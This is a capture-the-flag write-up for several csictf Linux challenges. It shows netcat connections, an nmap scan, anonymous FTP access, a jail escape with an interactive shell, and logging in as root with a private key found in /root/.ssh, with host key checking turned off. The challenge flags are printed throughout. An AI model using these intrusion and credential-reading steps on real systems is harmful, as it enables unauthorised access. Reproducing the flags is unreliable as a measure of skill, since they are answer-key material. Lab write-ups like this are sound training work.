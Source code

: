 ```yaml
---
layout: default
---
```



# LINUX

## AKA

nc chall.csivit.com 30611

### FLAG : csictf{1_4m_cl4rk3_k3nt}

![](img/aka1.png)

![](img/aka2.png)

## find32

An ssh shell was given ..

ssh user1@chall.csivit.com -p 30630 Password is find32

FLAG : csictf{th15_15_unu5u41}

![](img/find324.png)

As the flag is not wrapped in csictf{} i searched for "_"
and found

![](img/find321.png)

![](img/find322.png)

I got a dummy flag and some numbers written after user 2 maybe password.

So i logged onto user 2 and searched for "_" and got the flag.

![](img/fin323.png)


## HTB 0X1 

The IP was gien : So I began with **nmap scan**.


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 20:40 EDT
Warning: 34.93.37.238 giving up on port because retransmission cap hit (6).
Stats: 0:32:58 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 70.31% done; ETC: 21:26 (0:13:54 remaining)
Nmap scan report for 238.37.93.34.bc.googleusercontent.com (34.93.37.238)
Host is up (0.10s latency).
Not shown: 63783 filtered ports, 1748 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5001/tcp  open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 10.160.0.2 is not the same as 34.93.37.238
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:47.11.170.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 11
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
11387/tcp open  tcpwrapped
11550/tcp open  tcpwrapped
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Network Distance: 22 hops
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 7001/tcp)
HOP RTT       ADDRESS
1   2.80 ms   192.168.43.1
2   ...
3   96.14 ms  10.72.107.18
4   83.13 ms  192.168.42.86
5   87.75 ms  192.168.42.33
6   109.94 ms 172.25.11.5
7   ... 12
13  83.18 ms  72.14.233.106
14  95.62 ms  142.250.37.1
15  98.83 ms  142.250.37.49
16  95.97 ms  142.250.226.136
17  ... 21
22  149.08 ms 238.37.93.34.bc.googleusercontent.com (34.93.37.238)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3514.43 seconds

```

At I first I thinks it would be two three steps hacking like extracting pass from ftp port .....
But unfortunately it was wasy easier I tried to connect ftp since Anonymous FTP login allowed there was no issue

```bash
ftp -p  34.93.37.238 5001

```
But since no commands were working I opened the ftp in browser and flag was their only :

![](/img/ht.png)

### csictf{4n0nym0u5_ftp_l0g1n}


## WHEREAMI  

Given IP : nc chall.csivit.com 30623

At first on connecting to it you will get that it's a linux jail but it can easily be break by **/bin/sh -i 2>&1**,  So I just followed the normal linux commands and found **id_rsa** for the root user, but when I was trying to connect through it was spiting this error.

```bash

where-am-i-544787754f-rhtps:/root/.ssh$ ssh -i /root/.ssh/id_rsa root@localhost
lsPseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/home/ctf/.ssh'.
Host key verification failed.

```

But by little bit  googling I got the solution to my errors from this [link](https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error).

Here is complete steps : 

```bash
root@kali:~# nc chall.csivit.com 30623
Where am I?
/bin/sh -i 2>&1
/bin/sh: can't access tty; job control turned off
where-am-i-544787754f-qn2wt:/home/ctf$ cd ../..
where-am-i-544787754f-qn2wt:/$ ls -la
total 76
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root             0 Jul 20 07:51 .dockerenv
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 bin
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 dev
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 etc
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 home
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 lib
dr-xr-xr-x    1 root     root          4096 May 29 14:20 media
dr-xr-xr-x    1 root     root          4096 May 29 14:20 mnt
dr-xr-xr-x    1 root     root          4096 May 29 14:20 opt
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 proc
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 root
dr-xr-xr-x    1 root     root          4096 May 29 14:20 run
dr-xr-xr-x    1 root     root          4096 May 29 14:20 sbin
dr-xr-xr-x    1 root     root          4096 May 29 14:20 srv
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 sys
dr-xr-xr-x    1 root     root          4096 May 29 14:20 tmp
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 usr
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 var
where-am-i-544787754f-qn2wt:/$ cd root
where-am-i-544787754f-qn2wt:/root$ ls -la
total 12
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .ssh
where-am-i-544787754f-qn2wt:/root$ cd .ssh
where-am-i-544787754f-qn2wt:/root/.ssh$ ls -la
total 20
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root           571 Jul 20 07:52 authorized_keys
-r-xr-xr-x    1 root     root          2602 Jul 20 07:51 id_rsa
-r-xr-xr-x    1 root     root           571 Jul 20 07:51 id_rsa.pub                                                                                                            
where-am-i-544787754f-qn2wt:/root/.ssh$ ssh -i id_rsa -t -t -o StrictHostKeyChecking=no  root@localhost                                                                        
root@kali:~# nc chall.csivit.com 30623
Where am I?                                                                                                                                                                    
/bin/sh -i 2>&1                                                                                                                                                                
/bin/sh: can't access tty; job control turned off                                                                                                                              
where-am-i-6d4d9d997d-w429b:/home/ctf$ cd ../..                                                                                                                                
cd root
where-am-i-6d4d9d997d-w429b:/$ where-am-i-6d4d9d997d-w429b:/root$ cd .ssh
where-am-i-6d4d9d997d-w429b:/root/.ssh$ ls -la
total 20
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root           571 Jul 20 07:52 authorized_keys
-r-xr-xr-x    1 root     root          2602 Jul 20 07:51 id_rsa
-r-xr-xr-x    1 root     root           571 Jul 20 07:51 id_rsa.pub
where-am-i-6d4d9d997d-w429b:/root/.ssh$ ssh -i  /root/.ssh/id_rsa  -o StrictHostKeyChecking=no  root@localhost
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/home/ctf/.ssh'.
Failed to add the host to the list of known hosts (/home/ctf/.ssh/known_hosts).
csictf{n1c3_d093_w0w_5uch_55h}where-am-i-6d4d9d997d-w429b:/root/.ssh$

```
### csictf{n1c3_d093_w0w_5uch_55h}

